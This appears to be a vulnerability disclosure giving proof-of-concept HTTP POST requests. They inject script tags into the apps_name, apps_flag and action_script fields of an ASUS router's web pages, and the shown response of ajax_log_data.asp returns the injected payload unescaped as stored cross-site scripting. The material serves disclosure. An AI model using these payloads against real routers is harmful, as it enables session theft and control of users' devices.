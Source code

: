 ## PoCs:

/apps_test.asp:
```html
POST /apps_test.asp HTTP/1.1
Host: 192.168.1.200
Content-Length: 91
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Referer: http://192.168.1.200/apps_test.asp
Cookie: clickedItem_tab=0; asus_token=kHfiV3E4RwbLRTfNcfFQ4nAdSL01Pvb

apps_action=install&apps_name=<script>alert(1)</script>&apps_flag=gt;alert(2)</script>
```

/diskmon_test.asp: 
```html
POST /diskmon_test.asp HTTP/1.1
Host: 192.168.1.200
Content-Length: 131
Origin: http://192.168.1.200
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Referer: http://192.168.1.200/diskmon_test.asp
Cookie: clickedItem_tab=0; asus_token=kHfiV3E4RwbLRTfNcfFQ4nAdSL01Pvb

action_mode=apply&action_script=<script>alert(1)</script>&action_wait=1&diskmon_freq=0&diskmon_freq_time=%3E%3E&diskmon_policy=disk
```

Execution takes place when a user visits http://192.168.X.X/ajax_log_data.asp directly, see `Content-Type: text/html`:
```html
HTTP/1.0 200 OK
Server: httpd/2.0
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
Date: Sat, 26 Feb 2022 02:56:40 GMT
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
Content-Type: text/html
Connection: close

var logString = (function(){/*
Feb 25 21:28:04 rc_service: httpd 32053:notify_rc start_apps_install AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Feb 25 21:28:13 rc_service: httpd 32053:notify_rc start_apps_update
Feb 25 21:28:49 rc_service: httpd 32053:notify_rc start_apps_install <script>alert(1)</script> <script>alert(2)</script>
[...]
```
